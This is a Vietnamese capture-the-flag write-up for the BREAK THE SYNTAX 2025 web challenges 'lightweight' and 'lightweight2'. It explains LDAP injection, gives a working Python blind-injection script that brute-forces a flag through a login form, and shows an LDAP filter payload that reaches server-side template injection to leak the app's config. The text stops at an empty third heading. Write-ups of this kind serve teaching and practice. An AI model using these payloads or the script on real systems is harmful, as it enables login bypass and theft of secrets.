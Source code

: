 ```yaml
---
title: "BREAK THE SYNTAX\t2025"
tags: ["web"]
---
```


# BREAK THE SYNTAX 2025

![image](https://hackmd.io/_uploads/r19jVU3xxg.png)
![image](https://hackmd.io/_uploads/H1VTVU3exg.png)

![image](https://hackmd.io/_uploads/H1fD1QRxxl.png)

## lightweight

Auke đây là chủ đề khá mới LDAP injection
1 chút thông tin về LDAP
:::success
Viết tắt : Lightweight Directory Access Protocol

1. Chức năng : Dùng để truy vấn và cập nhật thông tin từ 1 cơ sở dữ liệu thư mục
2. Cấu trúc dữ liệu : Tổ chức giống như cây thư mục

- mỗi mục được xác định bởi 1 tên duy nhất ví dụ : `cn=John Doe,ou=Users,dc=example,dc=com`

3. Mô hình hoạt động : Client - server . Ở phía client gửi request đến server sau đó trả về kết quả

Vậy LDAPi là gì : untrusted data rơi vào cấu LDAP
:::
![image](https://hackmd.io/_uploads/Bkru1SCxex.png)
Anh hacker có thể làm gì?
:::warning
Chèn thêm đoạn query khác vào
:::

đó là trường username = `*)(description=a*` & pass = `*`
Khi này câu query sẽ trở thành `(&(employeeType=active)(uid=*)(description=a*)(userPassword=*))` -> tìm các tài khoản đang hoạt động với uid và pass bất kì , với thuộc tính miêu tả là a `+` với 1 `bất kì chữ cái nào cũng được `
dựa vào luận lí đoạn code ở trên ta có thể inject Blind được ròi

```python=
import requests
import urllib.parse
import time

url = 'https://lightweight.chal.bts.wh.edu.pl/'
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_-!@#$%^&*()'
known_prefix = ''  # Nếu biết trước phần đầu flag
max_len = 50

flag = known_prefix

for i in range(len(flag), max_len):
    found = False
    for c in charset:
        injected_username = f'''*)(description={flag + c}*'''
        data = {
            'username': injected_username,
            'password': '*'
        }

        try:
            response = requests.post(url, data=data, timeout=5)


            # Kiểm tra dựa trên status code và nội dung phản hồi
            if response.status_code == 200 and "Invalid credentials" not in response.text:
                flag += c
                print(f"[+] Found char: {c} --> {flag}")
                found = True
                break
        except requests.RequestException as e:
            print(f"[!] Error: {e}. Retrying after 1s...")
            time.sleep(1)
            continue

    if not found:
        print("[!] Injection failed or flag ended.")
        break

print(f"Final flag: {flag}")
```

![image](https://hackmd.io/_uploads/S1yk9Lnexg.png)

## lightweight2

Bài này giống bài trên chỉ khác nó có vẻ như đang sanitize những kí tự đặc biệt khiến cho payload ở bài 1 không còn hoạt động hiểu quả
payload

```python=
(userPassword:2.5.13.18:=\ff{{config}})
```

![image](https://hackmd.io/_uploads/BknetSCxgx.png)
Bằng 1 cách thần kì nào đó thig `{}` đi theo con đường này không bị sanitize 😂
![image](https://hackmd.io/_uploads/Hyy8FBAegx.png)

Và sau đó nó rơi vào `render_template` -> SSTI -> lộ file cấu hình
câu truy vấn sẽ là :

```python==
(&(employeeType=active)(uid=*)(userPassword:2.5.13.18:=\ff{{config}})(userPassword=*))
```

![image](https://hackmd.io/_uploads/Sk3KYSRxxe.png)

## lightweight3
